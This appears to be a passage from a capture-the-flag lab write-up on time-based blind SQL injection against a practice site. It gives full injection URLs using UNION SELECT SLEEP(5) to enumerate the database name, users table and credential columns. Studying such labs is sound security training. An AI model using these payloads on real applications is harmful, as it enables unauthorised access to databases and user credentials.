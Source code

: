 ![Time-based Blind SQLi Column Enum Pass](../../assets/images/thm/sqli/19-timebasedsqlicolumnpass.png)

Notice the delay of 5 seconds in the response time. This means that our UNION SELECT query executed successfully and that there are 2 columns.

Based on this behaviour, we can follow the iterative process we used in the content-based blind SQLi attack to determine the database name, table name, column names and the credentials.

Enumerate the database name `sqli_four` by:

```url
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null WHERE database() LIKE 'sqli_four';--
```

Enumerate the table name `users` by:

```url
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM information_schema.tables WHERE table_schema = 'sqli_four' AND table_name LIKE 'users';--
```

Enumerate column names `username` and `password` by:

```url
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM information_schema.columns WHERE table_schema = 'sqli_four' AND table_name = 'users' AND column_name LIKE 'username';--
```
<br>

```url
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM information_schema.columns WHERE table_schema = 'sqli_four' AND table_name = 'users' AND column_name LIKE 'password' AND column_name != 'username';--
```
